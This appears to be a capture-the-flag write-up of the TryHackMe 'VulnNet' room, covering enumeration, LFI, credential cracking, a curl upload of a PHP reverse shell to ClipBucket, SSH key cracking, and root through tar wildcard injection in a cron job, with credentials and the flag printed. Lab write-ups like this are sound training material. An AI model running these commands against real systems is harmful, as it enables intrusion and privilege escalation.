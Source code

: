 ```yaml
---
title: VulnNet
layout: post
author: Bit Criminals Team
date: 2021-05-03 17:02:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/vulnnet1
---
```


Lets start with a nmap scan.On scanning we got port 80 and 22 port 

![](/images/D4rkDemian/vulnet.png)

On checking the website we got a nice vulnnet page which didn't had anything important...

And also in the prompt we are provided with a domain **vulnnet.thm**. So lets scan for subdomains using gobuster 

```shell
gobuster vhost -u vulnnet.thm  -w /usr/share/dns 
```

we found two subdomains in which only one was working but it required authentication password.

```
broadcast.vulnnet.thm
```

Firstly add both the domains with the box ip to /etc/hosts.

Now lets run gobuster on the website which is running.

![](/images/D4rkDemian/vulnet2.png)

On searching all the directories we found something worth in /js.It gave us the hint that there is LFI(Local File Inclusion) in this box..

![](/images/D4rkDemian/vulnet3.png)

Now lets check for /etc/passwd and it worked!!

![](/images/vulnet4.png)

After playing a lot with LFI we finally found a password hash in 
```
/etc/apache2/.htpasswd
```
![](/images/D4rkDemian/vulnet5.png)

On cracking the hash using john we found that the auth credentials for **broadcast.vulnnet.thm** are 

```
developers:9972761drmfsls
```

So we are inside the **broadcast.vulnnet.thm**

It seems to be a website incorporating ClipBucket . 

![](/images/MaskdMafia/vulnnet1.png)

Checking the version shows us that it is running on ClipBucket version 4.0.
So we search for exploits in this version using the searchsploit command and come across this exploit:

![](/images/MaskdMafia/unknown.png)

(Although the name of the exploit shows that it is for versions lower than 4.0 , the comments inside the file say that it has been tested on version 4 too.)

```py
Clipbucket version 2.8.3 and version 4.0.0 have been tested. These versions were the latest at the time 
the security vulnerabilities were discovered.
```
There is a section in the exploit about arbitrary file upload to a ClipBucket website,so we try out that exploit to upload a php reverse shell.

```py
curl -F "file=@/opt/reverse_shell.php" -F "plupload=1" -F "name=anyname.php"
 "http://developers:9972761drmfsls@broadcast.vulnnet.thm/actions/beats_uploader.php"
```
After that we start our listener on the specified port and navigate to the /actions/ directory and click on our exploit to open it.

![](/images/MaskdMafia/vulnnet2.png)

And we see that we have got a shell!
Searching through the system , we notice a very interesting file , ssh-backup.tar.gz in /var/backups.
So we extract the file to get the id_rsa key.However it is password encrypted.

```py
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6CE1A97A[REDACTED]9CC561FB2CCC4

mRFDRL15t7qvaZxJGHDJsewnhp7wESbEGxeAWtCrbeIVJbQIQd8Z8SKzpvTMFLtt
dseqsGtt8HSruVIq++PFpXRrBDG5F4rW5B6VDOVMk1O9J4eHEV0N7es+hZ22o2e9
60qqj7YkSY9jVj5Nqq49uUNUg0G0qnWh8M6r8r83Ov+HuChdeNC5CC2OutNivl7j
dmIaFRFVwmWNJUyVen1FYMaxE+NojcwsHMH[REDACTED]sugOwZcMKhiRPTElojn
tDrlgNMnP6lMkQ6yyJEDNFtn7tTxl7tqdCIgB3aYQZXAfpQbbfJDns9EcZEkEkrp
hs5Li20NbZxrtI6VPq6/zDU1CBdy0pT58eVyNtDfrUPdviyDUhatPACR20BTjqWg
3BYeAznDF0MigX/AqLf8vA2HbnRTYWQSxEnAHmnVIKaNVBdL6jpgmw4RjGzsUctk
jB6kjpnPSesu4lSe6n/f5J[REDACTED]Opu3scJvMTSd76S4n4VmNgGdbpNlayj5
5uJfikGR5+C0kc6PytjhZrnODRGfbmlqh9oggWpflFUm8HgGOwn6nfiHBNND0pa0
r8EE1mKUEPj3yfjLhW6PcM2OGEHHDQrdLDy3lYRX4NsCRSo24jtgN1+aQceNFXQ7
v8Rrfu5Smbuq3tBjVgIWxolMy+a145SM1Inewx4V4CX1jkk6sp0q9h3D03BYxZjz
n/gMR/cNgYjobbYIEYS9KjZSHTucPANQxhUy5zQKkb61ymsIR8O+7pHTeReelPDq
nv7FA/65Sy3xSUXPn9nhqWq0+EnhLpojcSt6czyX7Za2ZNP/LaFXpHjwYxBgmMkf
oVmLmYrw6pOrLHb7C5G6eR6D/WwRjhPpuhCWWnz+NBDQXIwUzzQvAyHyb7D1+Itn
MesF+L9zuUAD[REDACTED]URwnzW9+RwmmJS[REDACTED]0AnN5OyuJtwfRznjyZ
7f5NP9u6vF0NQHYZI7MWcH7PAQsGTw3xzBmJdIfF71DmG0rqqCR7sB2buhoI4ve3
obvpmg2CvE+rnGS3wxuaEO0mWxVrSYiWdi7LJZvppwRF23AnNYNTeCw4cbvvCBUd
hKvhau01yVW2N/R8B43k5G9qbeNUmIZIltJZaxHnQpJGIbwFSItih49Fyr29nURK
ZJbyJbb4+Hy2ZNN4m/cfPNmCFG+w0A78iVPrkzxdWuTaBOKBstzpvLBA20d4o3ow
wC6j98TlmFUOKn5kJmX1EQAHJmNwERNKFmNwgHqgwYNzIhGRNdyoqJxBrshVjRk9
GSEZHtyGNoBqesyZg8YtsYIFGppZFQmVumGCRlfOGB9wPcAmveC0GNfTygPQlEMS
hoz4mTIvqcCwWibXME2g8M9NfVKs7M0gG5Xb93MLa+QT7TyjEn6bDa01O2+iOXkx
0scKMs4v3YBiYYhTHOkmI5OX0GVrvxKVyCJWY1ldVfu+6LEgsQmUvG9rYwO4+FaW
4cI3x31+qDr1tCJMLuPpfsyrayBB7duj/Y4AcWTWpY+feaHiDU/bQk66SBqW8WOb
d9vxlTg3xoDcLjahDAwtBI4ITvHNPp+hDEqeRWCZlKm4lWyI840IFMTlVqwmxVDq
-----END RSA PRIVATE KEY-----
```
So we copy it to our file and decrypt it using the following commands:
```py
python ssh2john.py id_rsa > key.hash
john key.hash --wordlist=/usr/share/wordlists/rockyou.txt
```
After that we connect via ssh as server-management.
From there we can read user.txt to get our first flag.

After that comes privilege escalation. We try sudo -l but are prompted for a password (which we dont have :( ) so we search through the system manually but it yields no results. However on displaying the contents of /etc/crontab we see a very interesting file backupsrv.sh running. So we display the contents of the file to find out more about it.

```py
# m h dom mon dow user    command
*/2   * * * *    root    /var/opt/backupsrv.sh
17 *    * * *    root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *    root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7    root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *    root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

![](/images/MaskdMafia/vulnet3.png)

We see that it makes a backup of everything in the Document folder routinely.

Basically,it is a **CronJob** file.I searched about this in the web and here's what I found.
https://int0x33.medium.com/day-67-tar-cron-2-root-abusing-wildcards-for-tar-argument-injection-in-root-cronjob-nix-c65c59a77f5e

What this script does is basically,it creates backup of every file within the Downloads directory of the user.After reading the article I ran the commands given in the blog 

![](/images/vul4.png)
and ran sudo bash  but it didin't work.

So,I changed my commnads a bit and used this instead.

```echo "chmod +s /bin/bash" > privesc.sh```

```echo "" > "--checkpoint-action=exec=sh privesc.sh"```

```echo "" > --checkpoint=1```

then,I ran /bin/bash -p and here's we get the root priviledges.

![](/images/vul5.png)

Congo, we get the flag,

***THM{220b671dd8adc301b34c2738ee8295ba}***
